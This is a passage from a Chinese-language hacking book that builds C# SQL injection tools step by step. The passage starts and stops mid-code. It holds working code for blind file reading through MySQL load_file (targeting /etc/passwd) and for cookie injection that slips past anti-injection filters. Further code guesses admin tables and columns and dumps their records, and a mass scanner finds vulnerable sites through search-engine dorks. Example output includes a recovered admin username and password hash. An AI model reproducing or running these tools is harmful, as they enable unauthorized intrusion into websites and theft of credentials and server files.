我们前面介绍了 MYSQL3.x 能够利用的注入方法太少了，既没有 information_schema 数据字典，也不支持 union 查询，而且不可以跨库跨表查询，甚至不支持两个 SELECT 的连接，比较有效的注入方法只有读取文件了。读取文件分为两步，第一步是判断文件长度，第二步，在得到文件长度后逐位去猜解内容，这里可以利用“折半查找”法得到每位的 ASCII 码值。

```csharp
/* 我们定一个函数 read_file()，实现逐位读取文件内容的功能：首先猜解文件内容长度，然后根据长度逐位猜解内容 */
private void read_file()
{
    if (comboBox_readFilePath.Text.Trim() == "")
    {
        MessageBox.Show("检查文件路径");
        return;
    }

    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string m_KeyWord = comboBox_keyWord.Text.Trim();
    string m_filePath = StrToHex(comboBox_readFilePath.Text.Trim());

    switch (injection_Type) // 根据不同的注入类型构造不同的URL
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25";
            break;
    }

    if (m_KeyWord == "")
    {
        int iFirst = 0;
        int iLast = 10000;
        int iLength = 0;

        getHttpStatuscodeAndContentLength(comboBox_url.Text.Trim(), out normalStatusCode, out normalContentLength);

        while (true) // 通过循环猜解读取文件内容的长度
        {
            string my_checkUrl_readFileLength = my_checkUrl + " and length(load_file('" + m_filePath + "')) between " + iFirst + " and " + iLast + "/*";
            string my_checkUrl_readFileLength_not = my_checkUrl + " and length(load_file('" + m_filePath + "')) not between " + iFirst + " and " + iLast + "/*";

            getHttpStatuscodeAndContentLength(my_checkUrl_readFileLength, out normalStatusCode, out normalContentLength);
            getHttpStatuscodeAndContentLength(my_checkUrl_readFileLength_not, out normalStatusCode, out normalContentLength);

            if (!checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
            {
                int iTmp = iLast;
                iLast = iLast + iLast - iFirst;
                iFirst = iTmp;
                iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
            }
            else
            {
                if (iLast - iFirst == 1)
                {
                    iLength = iLast;
                    break;
                }
            }
        }
    }
}
```

```csharp
iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
}

richTextBox_readResult.Text = richTextBox_readResult.Text + comboBox_readFilePath.Text.Trim() + "长度:" + iLength + "\t\n";
// 通过文件长度构造循环逐位猜解
for (int i = 1; i <= iLength; i++)
{
    int iBegin = 0;
    int iEnd = 130;
    int iTmpAscii = 0;
    // getHttpStatuscodeAndContentLength(comboBox_url.Text.Trim(), out normalStatusCode, out normalContentLength);
    while (true)
    {
        string my_checkUrl_readFile = my_checkUrl + " and ascii(mid(load_file('" + m_filePath + "')," + i + ",1)) between " + iBegin + " and " + iEnd + "/*";
        string my_checkUrl_readFile_not = my_checkUrl + " and ascii(mid(load_file('" + m_filePath + "')," + i + ",1)) not between " + iBegin + " and " + iEnd + "/*";
        // 折半查找法
        getHttpStatuscodeAndContentLength(my_checkUrl_readFile, out StatusCode_11, out ContentLength_11);
        getHttpStatuscodeAndContentLength(my_checkUrl_readFile_not, out StatusCode_12, out ContentLength_12);

        if (!checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
        {
            int iTmp1 = iEnd;
            iEnd = iEnd + iEnd - iBegin;
            iBegin = iTmp1;
            iEnd = (iEnd + iBegin) / 2 + (iEnd + iBegin) % 2;
        }
        else
        {
            if (iEnd - iBegin == 1)
            {
                iTmpAscii = iEnd;
                break;
            }
            iEnd = (iEnd + iBegin) / 2 + (iEnd + iBegin) % 2;
        }
    }

    richTextBox_readResult.Text = richTextBox_readResult.Text + ((char)iTmpAscii).ToString();
}

else
{
    int iFirst = 0;
    int iLast = 10000;
    int iLength = 0;

    while (true) // 通过循环猜解读取文件内容的长度
    {
        string my_checkUrl_readFileLength = my_checkUrl + " and length(load_file('" +
            m_filePath + "')) between '" + iFirst + "' and '" + iLast + "'/*";
        if (!getHttpContent(my_checkUrl_readFileLength).Contains(m_KeyWord))
        {
            int iTmp = iLast;
            iLast = iLast + iLast - iFirst;
            iFirst = iTmp;
            iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
        }
        else
        {
            if ((iLast - iFirst == 1))
            {
                iLength = iLast;
                break;
            }
            iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
        }
    }

    richTextBox_readResult.Text = richTextBox_readResult.Text + comboBox_readFilePath.Text.Trim() + " 长度:" + iLength + "\t\n";

    // 通过文件长度构造循环逐位猜解
    for (int i = 1; i <= iLength; i++)
    {
        int iBegin = 0;
        int iEnd = 130;
        int iTmpAscii = 0;
        while (true)
        {
            string my_checkUrl_readFile = my_checkUrl + " and ascii(mid(load_file('" +
                m_filePath + "')," + i + ",1)) between " + iBegin + " and " + iEnd + "/*";
            // 折半查找法
            if (!getHttpContent(my_checkUrl_readFile).Contains(m_KeyWord))
            {
                int iTmp1 = iEnd;
                iEnd = iEnd + iEnd - iBegin;
                iBegin = iTmp1;
                iEnd = (iEnd + iBegin) / 2 + (iEnd + iBegin) % 2;
            }
            else
            {
                if ((iEnd - iBegin == 1))
                {
                    iTmpAscii = iEnd;
                    break;
                }
                iEnd = (iEnd + iBegin) / 2 + (iEnd + iBegin) % 2;
            }
        }
        richTextBox_readResult.Text = richTextBox_readResult.Text + ((char)iTmpAscii).ToString();
    }
}
```

然后双击“读取文件”按钮，编辑函数 button_readFile_Click() 代码异步调用 read_file() 函数，具体代码如下：

```csharp
private void button_readFile_Click(object sender, EventArgs e)
{
    DelegateToReadFile delHTStartGuess = new DelegateToReadFile(read_file);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndReadFile);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

（详细代码参见光盘实例11源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL 和关键字，单击“开始检测”按钮，检测出存在数字型注入漏洞，数据库为 MySQL 3.x，如图53所示。


图53 注入点检测结果

然后填好要读取的文件路径 /etc/passwd 单击“读取文件”按钮，首先猜解出文件内容长度，然后一位一位猜解文件内容，返回结果如图54所示。


图54 成功获取文件内容


## 编写注入工具进阶

nohack.me

## 第九章 编写注入工具进阶

### 1 Cookie 注入基础

随着 SQL 注入的盛行，现在很多网站都加了防注入系统，防注入系统会对我们提交的数据做安全检查，如果我们提交的数据包含恶意代码，程序就会报错，这样我们就无法成功注入了。

一个采用了防注入系统的网站，当我们提交注入语句譬如单引号时，程序会报错并返回一些警告信息。例如 `http://192.xx.xx.113/NewsShow.asp?id=8`，当我们在 URL 后添加单引号时，返回信息如图1、图2所示。


#### 1.1 Cookie 注入原理

在 ASP 中，request 对象获取客户端提交数据常用的是 get(Request.QueryString) 和 post(Request.Form) 两种方式，同时 request 对象还可以通过 Request.Cookie 获得数据。Cookie 是保存在客户端的一个文本文件，可以进行修改。如果我们不指定提交方式，直接使用“request()”方式，ASP 会按 QueryString、Form、Cookie 的顺序来搜索。很多防注入系统设计上存在问题，仅仅会检测 GET 和 POST 方式提交的数据，如果有特殊字符（注入语句或字符）就禁止数据的提交，但没有检测 Cookie 的数据。这样我们可以通过修改 Cookie 的方式来提交变量的值，从而突破防注入系统进行注入攻击。Cookie 注入的基本条件为，系统直接使用“request("name")”方式获取客户端提交的数据，对客户端提交的变量没有过滤，而且在防注入程序中没有限制 Cookie 方式提交数据。

#### 1.2 Cookie 注入检测

原理知道了，那我们怎样检测是否存在 Cookie 注入漏洞呢？检测 Cookie 的注入语句如下：

```javascript
javascript:alert(document.cookie="参数="+escape("参数值 and 1=1"));self.open("http://"+document.location.host+document.location.pathname);void(0);
javascript:alert(document.cookie="参数="+escape("参数值 and 1=2"));self.open("http://"+document.location.host+document.location.pathname);void(0);
```

我们需要用到 JavaScript 语言的知识，大家不明白没关系，只要先理解大概意思就行了，毕竟这里不是去研究 JavaScript。

- 1. alert()，显示一个信息对话框，这里是把我们修改后的 Cookie 显示出来。
- 2. document.cookie，在处理 Cookie 时，JavaScript 将它保存为 document 对象的一个属性，其属性名称是 cookie，利用该属性，我们可以创建和读取 Cookie 数据，这里用来设置、修改 Cookie。
- 3. escape() 函数，可以对字符串进行编码。Cookie 值中不能含有分号、逗号和空格，所以我们要利用 escape() 函数对其进行编码。
- 4. self.open()，重新打开一个页面，这里我们重新打开修改 Cookie 后的原页面，显示返回的内容。

上面的整体思路就是设置调用当前创建的 Cookie 数据项值，在设置完 Cookie 后，重新访问原页面。

我们用具体的例子测试一下。第一步：打开我们要检测的页面，返回结果如图3所示。


第二步：把浏览器的 URL 清空，输入脚本后回车会显示一个对话框，内容是经过编码后我们提交的 Cookie“id=8%20and%201%3D1”，如图4所示。

```javascript
javascript:alert(document.cookie="id="+escape("8 and 1=1"));self.open("http://"+document.location.host+document.location.pathname);void(0);
```

然后浏览器会打开一个新的窗口，地址栏为不带参数的 URL，返回内容和第一步完全相同，如图5所示。


第三步：把浏览器的 URL 清空，输入脚本后回车会显示一个对话框，内容是经过编码后我们提交的 Cookie“id=8%20and%201%3D2”，如图6所示。

```javascript
javascript:alert(document.cookie="id="+escape("8 and 1=2"));self.open("http://"+document.location.host+document.location.pathname);void(0);
```


然后浏览器会打开一个新的窗口，地址栏为不带参数的 URL，返回错误页面，如图7所示。

这样我们就可以确定存在 Cookie 注入。Cookie 注入的利用方式很简单，基本和我们前面介绍过的注入方式一样，我们只要把“javascript:alert(document.cookie="参数="+escape("参数值 注入语句"));self.open("http://"+document.location.host+document.location.pathname);void(0);”中“参数值”后面的“注入语句”换成其他的注入语句就可以根据返回的内容得到我们想要的信息。例如猜解管理员表“admin”，我们可以构造如下语句“javascript:alert(document.cookie="id="+escape("8 and (select count(*) from admin)>0"));self.open("http://"+document.location.host+document.location.pathname);void(0);”，如果返回正常说明 admin 表存在，否则不存在。


图7 返回错误页面

### 2 Cookie 注入代码实现

目前网络上还没有很好的针对 Cookie 注入的成熟工具，大部分都是通过中转页面实现 Cookie 注入功能。如果我们每个字符都去通过“JavaScript”手动修改 Cookie 的方式去猜解，那是一个相当繁琐的过程。下面就介绍一下如何写出我们自己的 Cookie 注入工具。

光盘中实例1是我们第五章示例程序的界面，只需在这个基础上添加功能代码实现相应功能即可。

#### 2.1 构造 Cookie

前面我们介绍过了，Cookie 注入就是通过 Cookie 方式提交 SQL 注入语句得到我们需要的信息。C# 中有很多可以操作 Cookie 的方法，我们使用 HttpWebRequest 来操作 Cookie。HttpWebRequest 较为底层，能实现的功能比较多，Cookie 操作比较简单。

我们定义一个函数 getCookieHtml()：

```csharp
/* 定义函数 getCookieHtml()，作用是根据参数 m_HttpUrl 指定的 URL 得到相应的返回内容 */
private string getCookieHtml(string m_HttpUrl, string m_Cookie)
{
    string m_CookieInject = m_HttpUrl + urlEncode(m_Cookie);
    string[] CookieCheck = m_CookieInject.Split('?');
    try
    {
        CookieContainer cc = new CookieContainer();
        cc.SetCookies(new Uri(CookieCheck[0]), "");
        cc.SetCookies(new Uri(CookieCheck[0]), CookieCheck[1]);
        HttpWebRequest webRequestCookie = (HttpWebRequest)WebRequest.Create(new Uri(CookieCheck[0]));
        webRequestCookie.CookieContainer = cc;
        HttpWebResponse webResponseCookie = (HttpWebResponse)webRequestCookie.GetResponse();
    }
}
```

```csharp
StreamReader sr2 = new StreamReader(webResponseCookie.GetResponseStream(), Encoding.Default);
string returnString = sr2.ReadToEnd();
webRequestCookie.Abort();
webResponseCookie.Close();
return returnString;
}
catch
{
    return "服务器返回内容出错了";
}
}
```

getCookieHtml() 实现下面的功能：参数 m_HttpUrl 代表我们要访问的 URL，也就是注入过程中的注入点。参数 m_Cookie 是我们构造的 Cookie，也就是我们构造的注入语句。getCookieHtml 把 m_Cookie 进行编码后提交到参数 m_HttpUrl 指定的地址，这样我们就可以带 Cookie 访问网站了。urlEncode 函数是我们定义的一个编码函数，Cookie 值中不能含有分号、逗号和空格，所以我们要利用 escape() 函数对其进行编码。

#### 2.2 猜解表名

猜解数据库的表名跟我们前面介绍的 ACCESS 猜表名的过程类似，构造 Cookie 注入语句，添加 and (select count(*) from table_name)>0 这句代码，如果返回正常，说明当前猜解的数据表 table_name 是存在的，否则不存在。我们把常见的数据表保存到一个文本文档中，在猜解数据表时打开这个文本文档，每次从文件中取出一个数据表名，构造 Cookie 提交进行猜解，直到遍历文本文档中所有的数据表名。

```csharp
/* 首先我们定义一个函数 get_Table()，把我们要猜解数据表的功能代码放在这个函数里面，
当我们单击“猜解表名”按钮后异步调用 get_Table()，避免程序的主界面出现假死的现象，get_Table() 代码如下 */
private void get_Table()
{
    string my_checkUrl = comboBox_url.Text.Trim();
    string m_keyWord = comboBox_keyWord.Text.Trim();
    StreamReader srReader = new StreamReader("tables.txt");
    string table_name;
    while ((table_name = srReader.ReadLine()) != null) // 逐行读取 tables.txt 里面的表名将值赋予变量 table_name，根据当前 table_name 变量里数据表名，构造 URL 进行猜解
    {
        switch (comboBox_type.Text.Trim()) // 根据不同类型构造不同的利用语句
        {
            case "数字型":
                if (getCookieHtml(my_checkUrl, " and (select count(*) from " + table_name + ")>0 and 1='1").Contains(m_keyWord))
                {
                    listView_getTables.Items.Add(table_name);
                    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + " 猜解到数据表：" + table_name + "\t\n";
                }
                break;
            case "字符型":
                if (getCookieHtml(my_checkUrl, "' and (select count(*) from " + table_name + ")>0 and '1'='1").Contains(m_keyWord))
                {
                    listView_getTables.Items.Add(table_name);
                    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + " 猜解到数据表：" + table_name + "\t\n";
                }
                break;
            case "搜索型":
                if (getCookieHtml(my_checkUrl, "%25' and (select count(*) from " + table_name + ")>0 and '%25'=''").Contains(m_keyWord))
                {
                    listView_getTables.Items.Add(table_name);
                    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + " 猜解到数据表：" + table_name + "\t\n";
                }
                break;
        }
    }
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "所有表名猜解完毕" + "\t\n";
}
```

双击“猜解表名”，修改代码如下：

```csharp
private void toolStripButton_getTables_Click(object sender, EventArgs e)
{
    listView_getTables.Items.Clear();
    DelegateToGetTable delStartGetTable = new DelegateToGetTable(get_Table);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetTable);
    delStartGetTable.BeginInvoke(callBackWhenDone, null);
}
```

（完整代码可以参见光盘实例 1 的完整程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，选择好注入类型，并输入“关键字”，单击“猜解表名”，运行效果如图 8 所示，已经猜到 Idea_Admin、Idea_News 两个数据表了。


图 8 猜解表名

#### 2.3 猜解列名

下面就来猜解列名。猜列名的语句为构造 Cookie，添加 and (select count(column_name) from table_name)>0，如果返回正常，说明当前数据表 table_name 中存在 column_name 列，否则不存在。


精通 C# 黑客注入编程

我们把常见的列名保存到一个文本文件中，在猜解时打开这个文本文件，每次从文件中取出一个字段名，构造 Cookie 进行猜解，直到遍历文本文件中所有的字段名。

```csharp
/* 首先我们定义一个函数 get_Column()，把我们要猜解列名的功能代码放在这个函数里面；
当我们单击“猜解列名”按钮后异步调用 get_Column()，避免程序的主界面出现假死的现象，get_Column() 代码如下 */
private void get_Column()
{
    string my_checkUrl = comboBox_url.Text.Trim();
    string m_keyWord = comboBox_keyWord.Text.Trim();
    StreamReader srReader = new StreamReader("columns.txt");
    string column_name;
    while ((column_name = srReader.ReadLine()) != null) // 逐行读取 columns.txt 里面的表名
    // 将值赋予变量 column_name，根据当前 column_name 变量置换数据表名，构造 URL 进行猜解
    {
        switch (comboBox_type.Text.Trim()) // 根据不同类型构造不同的利用语句
        {
            case "数字型":
                if (getCookieHtml(my_checkUrl, " and (select count(" + column_name + ") from " + listView_getTables.FocusedItem.Text + ")>0 and 1='1").Contains(m_keyWord))
                {
                    listView_getColumns.Items.Add(column_name);
                    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "猜解到数据表" + listView_getTables.FocusedItem.Text + "中的列名:" + column_name + "\t\n";
                }
                break;
            case "字符型":
                if (getCookieHtml(my_checkUrl, "' and (select count(" + column_name + ") from " + listView_getTables.FocusedItem.Text + ")>0 and '1'='1").Contains(m_keyWord))
                {
                    listView_getColumns.Items.Add(column_name);
                    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "猜解到数据表" + listView_getTables.FocusedItem.Text + "中的列名:" + column_name + "\t\n";
                }
                break;
            case "搜索型":
                if (getCookieHtml(my_checkUrl, "!%25' and (select count(" + column_name + ") from " + listView_getTables.FocusedItem.Text + ")>0 and '%25'=''").Contains(m_keyWord))
                {
                    listView_getColumns.Items.Add(column_name);
                    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "猜解到数据表" + listView_getTables.FocusedItem.Text + "中的列名:" + column_name + "\t\n";
                }
                break;
        }
    }
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "所有列名猜解完毕" + "\t\n";
}
```

双击“猜解列名”，修改代码如下：

```csharp
private void toolStripButton_getColumns_Click(object sender, EventArgs e)
{
    listView_getColumns.Items.Clear(); // 清空 listView_getColumns 中的内容
    DelegateToGetColumn delStartGetColumn = new DelegateToGetColumn(get_Column);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetColumn);
    delStartGetColumn.BeginInvoke(callBackWhenDone, null);
}
```

（完整代码可以参见光盘实例 2 的完整程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，选择好注入类型，输入关键字，单击“猜解表名”，猜解出 Idea_Admin、Idea_News 两个数据表。我们选中数据表 Idea_Admin，单击“猜解列名”，运行效果如图 9 所示，可以看到程序已经猜到了数据表 Idea_Admin 的列名 username、password、id。


图 9 猜解列名

#### 2.4 猜解记录

猜解记录内容的过程可以这样表示：

```text
{
获取记录条数
For(count) // 猜解所有记录
    获取某一条记录内容的长度
        For(length) // 猜解所有字符
{
    // 获取每一位字符
}
}
```

猜解过程的详细解释我们已经在第五章介绍过了，这里不再重复，直接给出猜解记录功能的函数代码：

```csharp
private void get_Datas()
{
    string my_checkUrl = comboBox_url.Text.Trim();
    string m_keyWord = comboBox_keyWord.Text.Trim();

    int iFirst = 0;
    int iLast = 256;
    int iRecodesCount = 0;
    while (true)
    {
        string my_url_guessDatas = my_checkUrl;
        if (!getCookieHtml(my_url_guessDatas, " and (select count(*) from " +
            listView_getTables.FocusedItem.Text + ") between " + iFirst + " and " + iLast + " and 1=1").Contains(m_keyWord))
        {
            int iTmp = iLast;
            iLast = iLast + iLast - iFirst;
            iFirst = iTmp;
            iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
        }
        else
        {
            if (iLast - iFirst == 1)
            {
                iRecodesCount = iLast;
                break;
            }
            iLast = (iLast + iFirst) / 2 + (iLast + iFirst) % 2;
        }
    }

    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + "存在" + iRecodesCount + "条记录" + "\t\n";
    for (int i = 1; i <= iRecodesCount; i++)
    {
        foreach (ListViewItem itemColumn in listView_getColumns.CheckedItems)
        {
            int iFirstLen = 0;
            int iLastLen = 50;
            int iCurrentLen = 0;
            while (true)
            {
                string my_url_guessDatasColumn = my_checkUrl;
                if (!getCookieHtml(
                    my_url_guessDatasColumn,
                    "' and (Select Top 1 len(cstr(['" + itemColumn.Text + "'])) from (Select Top " + i.ToString() + " * From ['" + listView_getTables.FocusedItem.Text + "'] Where 1=1 Order by 1) T Order by 1 desc) between " + iFirstLen + " and " + iLastLen + " and 1=1").Contains(m_keyWord))
                {
                    int iTmp = iLastLen;
                    iLastLen = iLastLen + iLastLen - iFirstLen;
                    iFirstLen = iTmp;
                    iLastLen = (iLastLen + iFirstLen) / 2 + (iLastLen + iFirstLen) % 2;
                }
                else
                {
                    if (iLastLen - iFirstLen == 1)
                    {
                        iCurrentLen = iLastLen;
                        break;
                    }
                    iLastLen = (iLastLen + iFirstLen) / 2 + (iLastLen + iFirstLen) % 2;
                }
            }

            richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + itemColumn.Text + "长度" + iCurrentLen + ":";
        }
    }
}
```

```csharp
string dataTmp = "";
for (int dataCharNum = 1; dataCharNum <= icurrentLen; dataCharNum++)
{
    int iFirstContent = 0;
    int iLastContent = 130;
    int idatasContent = 0;
    while (true)
    {
        string my_url_guessDatasContent = my_checkUrl;
        if (!getCookieHtml(my_url_guessDatasContent, " and (select top 1 asc(mid(cstr('" + itemColumn.Text + "')," + dataCharNum + ",1)) from (Select Top " + i.ToString() + " * from [" + listView_getTables.FocusedItem.Text + "] where 1=1 order by 1) T Order by 1 desc) between " + iFirstContent + " and " + iLastContent + " and 1=1").Contains(m_keyWord))
        {
            int iTmp = iLastContent;
            iLastContent = iLastContent + iLastContent - iFirstContent;
            iFirstContent = iTmp;
            iLastContent = (iLastContent + iFirstContent) / 2 + (iLastContent + iFirstContent) % 2;
        }
        else
        {
            if (iLastContent - iFirstContent == 1)
            {
                idatasContent = iLastContent;
                break;
            }
            iLastContent = (iLastContent + iFirstContent) / 2 + (iLastContent + iFirstContent) % 2;
        }
    }
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + ((char)idatasContent).ToString();
    dataTmp += ((char)idatasContent).ToString();
}
richTextBox_InjectLog.Text += "\r\n";
listView_getDatas.Items.Add(itemColumn.Text + ":" + dataTmp);
```

双击“猜解数据”，修改代码如下：

```csharp
private void toolStripButton_getDatas_Click(object sender, EventArgs e)
{
    listView_getDatas.Items.Clear(); //清空listView_getDatas中的内容
    DelegateToGetData delStartGetTable = new DelegateToGetData(get_Datas);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetData);
    delStartGetTable.BeginInvoke(callBackWhenDone, null);
}
```

（完整代码可以参见光盘实例3的完整程序）

## 猜解C#注入编程

最后按 Ctrl+F5 编译运行。

在注入点处输入需要检测的 URL，选择好注入类型，输入关键字，单击“猜解表名”，猜解出 Idea_Admin、Idea_News 两个数据表。选中数据表 Idea_Admin，单击“猜解列名”，猜解出数据表 Idea_Admin 的列名 username、password、id，选中这三列，单击“猜解记录”，运行效果如图10所示，猜解出管理员用户信息：admin，7a57a5a743894a0e。


图10 猜解记录

### 3 批量扫描注入点

#### 3.1 批量搜索注入点

前面介绍了那么多注入漏洞的利用方法，那我们怎样去发现注入漏洞呢？前辈们给我们总结出了一个很好的办法——利用搜索引擎批量寻找注入点。Google、Baidu 都是最流行的搜索引擎。但是正是由于它们搜索功能过于强大，使得很多隐私信息都被公布于世。精通搜索引擎已经成为一门黑客必须掌握的技能。

虽然我们每个人都用过百度，但是一些技巧性的东西恐怕很多人就不清楚了。现在我们先介绍一下搜索的基本语法。


图11 搜索 URL 中包含指定字符串

- 1. **inurl**  
  搜索 URL 中包含指定字符串的语法。例如，我们搜索网址中包含“login.asp”登录页面的语法就是“inurl:login.asp”（不包括引号，冒号后面没有空格），如图11所示。
- 2. **intitle**  
  搜索网页标题中包含特定字符的语法。例如，很多网站的后台页面标题中会有“管理后台登录”，搜索这类后台的语法为“intitle:管理后台登录”，如图12所示。
- 3. **site**  
  搜索指定网站的内容。例如，搜索“163.com”网站上面相关的内容，语法“黑客 site:163.com”。


图12 搜索网页标题中包含特定字符

如图13所示。

这些语法是可以复合使用的，比如我们搜索 163.com 的后台登录页面，可以用这样的语法“intitle:管理员 site:163.com”。

使用搜索语法“inurl:关键词”，可以搜索到网址中存在关键词的页面。我们以 ASP 为例，一般 ASP 注入的链接基本格式为 `http://www.xxx.com/pois0n.asp?id=xxx`。我们来分析一下这个网址，其中“pois0n.asp”在此仅为举例，不同网址会有不同的名称，然后它的 id 变量也会因网址不同而不同。但是里面的“.asp?id=”基本是不会改变的，所以我们可以搜索“inurl:.asp?id=”来查找可能存在注入漏洞的 URL。


图13 搜索指定网站的内容

例如，我们通过 baidu 搜索“inurl:.asp?id=”，返回结果如图14所示。

搜索的关键词不是固定的，我们完全可以根据自己的经验来变换，以便搜索到更多更准确的地址。例如“inurl:.asp?”、“inurl:.asp?newsid=”等。


图14 通过 baidu 搜索“inurl:.asp?id=”

搜索到了很多页面我们该怎么去检测是否存在注入漏洞呢？如果要一个一个地拿去检测，效率是很低的。很多注入工具都提供了注入点的批量扫描功能，这里以啊D注入工具为例介绍如何去批量检测。


图15 啊D自动提取页面内的所有链接进行注入点检测

第一步：打开啊D，切换到扫描注入点页面，在检测地址处输入搜索引擎的地址，然后回车。啊D注入工具的检测页面内已经内嵌了一个浏览器，我们只需要在这里打开 www.baidu.com 的页面进行搜索，啊D会自动提取页面内的所有链接进行注入点检测，如图15所示。

第二步：在搜索输入框中输入搜索语法和构建的关键词，这里我们输入“inurl:.asp?id=”，然后点击搜索按钮开始搜索。啊D会自动提取当前页面内的所有链接进行注入点检测，并把检测到的漏洞地址在内嵌浏览器页面下方以红色字体显示出来，如图16所示。

第三步：页面检测完毕后，通过点击下一页进行翻页，啊D会自动进行下一个页面的注入点检测，如图17所示。

#### 3.2 批量扫描注入点代码实现


看完了别的注入点批量查找工具，接下来我们就实现自己的批量查找工具吧。我们添加一个 webBrowser 控件，用于模拟啊D里面的内嵌浏览器。这里我已经设计好了程序的主界面，我们只需在相应的地方添加功能代码即可，大家可以参见光盘实例4的完整程序代码。最后效果如图18所示。


##### 3.2.1 实现浏览器功能

在检测漏洞之前，我们需要在内嵌的浏览器中打开指定的页面，在 C# 中通过 webBrowser 控件可以很容易地实现浏览器功能。

我们双击“打开”按钮，编辑函数实现浏览器打开页面的功能，具体函数代码如下：

```csharp
private void button_open_Click(object sender, EventArgs e)
{
    listView_urlList.Items.Clear();
    urlCount = 0;
    webBrowser_scanInjection.Navigate(comboBox_scanUrl.Text.Trim());
}
```

`webBrowser_scanInjection.Navigate(comboBox_scanUrl.Text.Trim())` 中，`comboBox_scanUrl.Text.Trim()` 就是我们输入的要访问的 URL，这句代码的意思就是让 `webBrowser` 控件去访问我们指定的 URL 地址。

##### 3.2.2 查找页面所有链接

我们在检测漏洞的时候，首先需要提取出 `webBrowser` 控件当前页面上所有的链接地址，然后去分析这些地址有没有注入漏洞。

当 webBrowser 控件打开一个 URL 返回结果后，会产生一个 DocumentCompleted 事件，我们要在这个事件的处理函数中提取出所有的链接地址。我们为 DocumentCompleted 事件添加一个处理函数 `webBrowser_scanInjection_DocumentCompleted()`，当 webBrowser 控件访问的 URL 加载后执行这个函数中的代码，如图19所示。

```csharp
private void webBrowser_scanInjection_DocumentCompleted(object sender, WebBrowserDocumentCompletedEventArgs e)
{
    if (webBrowser_scanInjection.Document != null)
    {
        HtmlElementCollection LElements = webBrowser_scanInjection.Document.All;
        for (int Loop = 0; Loop < LElements.Count; Loop++)
        {
            HtmlElement LField = LElements[Loop];
            if (LField.TagName.ToUpper() == "A")
            {
                string URL = LField.GetAttribute("href");
                if (URL != null)
                {
                    urlCount++;
                    AddLink(URL);
                    toolStripStatusLabel_urlCount.Text = "找到链接 " + urlCount + " 条";
                }
            }
        }
    }
}
```


我们通过 `AddLink()` 函数把提取出来的地址添加到下面的列表框里。完整的函数代码参见光盘实例5完整程序。

最后按 Ctrl+F5 编译运行。在扫描页面输入 www.baidu.com，填好搜索关键字“inurl:php site:xxx.cn”，页面载入成功后，会把找到的链接都显示在下面的列表框中，如图20所示。


##### 3.2.3 检测注入漏洞

上面我们实现了提取页面上链接地址的功能，但是我们的目的不是找链接地址，而是去检测该链接是否存在注入漏洞。


## 精通C#黑客注入编程

这里只要把上面的 `AddLink()` 函数换成注入点检测函数 `CheckLink(URL)` 就可以了。`CheckLink(URL)` 函数中我们为了防止程序假死，在里面异步调用 `checkInjection(string my_checkUrl)` 函数。`checkInjection(string my_checkUrl)` 函数主要功能就是检测参数 `my_checkUrl` 指定的 URL 是否存在注入漏洞。具体函数代码：

```csharp
private void checkInjection(string my_checkUrl)
{
    string m_injectionType = "";
    string m_databaseType = "";
    /* 首先我们定义几个变量来保存HTTP状态码和长度信息 */
    HttpStatusCode normalStatusCode;   // 正常URL返回的http状态码
    long normalContentLength;          // 正常URL返回的长度
    HttpStatusCode StatusCode_11;      // 正常URL后面添加 "and 1=1" 返回的http状态码
    long ContentLength_11;             // 正常URL后面添加 "and 1=1" 返回的长度
    HttpStatusCode StatusCode_12;      // 正常URL后面添加 "and 1=2" 返回的http状态码
    long ContentLength_12;             // 正常URL后面添加 "and 1=2" 返回的长度

    getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);
    getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=1", out StatusCode_11, out ContentLength_11);
    getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=2", out StatusCode_12, out ContentLength_12);

    if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
    {
        m_injectionType = "数字型";
        listView_vulList.Items.Add(new ListViewItem(new string[] { my_checkUrl, m_injectionType }));
        vulCount++;
        toolStripStatusLabel_vulCount.Text = "检测到" + vulCount + "个漏洞";
        return;
    }

    getHttpStatuscodeAndContentLength(my_checkUrl + "' and '1'='1", out StatusCode_11, out ContentLength_11);
    getHttpStatuscodeAndContentLength(my_checkUrl + "' and '1'='2", out StatusCode_12, out ContentLength_12);

    if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
    {
        m_injectionType = "字符型";
        listView_vulList.Items.Add(new ListViewItem(new string[] { my_checkUrl, m_injectionType, m_databaseType }));
        vulCount++;
        toolStripStatusLabel_vulCount.Text = "检测到" + vulCount + "个漏洞";
        return;
    }

    getHttpStatuscodeAndContentLength(my_checkUrl + "%25' and 1=1 and '%25'='", out StatusCode_11, out ContentLength_11);
